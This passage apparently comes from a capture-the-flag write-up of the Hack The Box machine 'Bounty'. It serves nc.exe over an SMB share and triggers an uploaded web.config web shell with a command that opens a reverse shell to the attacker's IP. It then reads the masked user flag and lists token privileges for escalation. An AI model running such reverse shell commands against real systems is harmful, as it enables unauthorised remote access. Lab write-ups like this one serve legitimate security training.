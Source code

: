 Now, to upgrade to a better shell. We can start a `SMB` server with `smbserver.py` that shares a `nc.exe` and start a `nc` listener on our machine.

```bash
$ mkdir share
$ cd share
$ cp /usr/share/windows-resources/binaries/nc.exe .
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . 
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Then, on our browser, we browse to `http://bounty.htb/uploadedfiles/web.config?cmd=\\10.10.XX.XX\kali\nc.exe -e cmd.exe 10.10.XX.XX 1337`. We will then receive a shell as `merlin`.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.X] from (UNKNOWN) [10.10.10.93] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
C:\tmp> bounty\merlin
```

# user.txt

The user flag is in `merlin`'s Desktop.

```
C:\tmp> type C:\Users\merlin\Desktop\user.txt
bdffXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

Checking our current privileges, we see that we have the `SeAssignPrimaryTokenPrivilege` and `SeImpersonatePrivilege` privileges. 

```
C:\tmp> whoami /priv                                                                                     
                                                                                                 
PRIVILEGES INFORMATION                                                                           
----------------------                                                                           
                                                                                                 
Privilege Name                Description                               State                    
============================= ========================================= ========                 
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled                 
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled                 
SeAuditPrivilege              Generate security audits                  Disabled                 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                  
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                  
```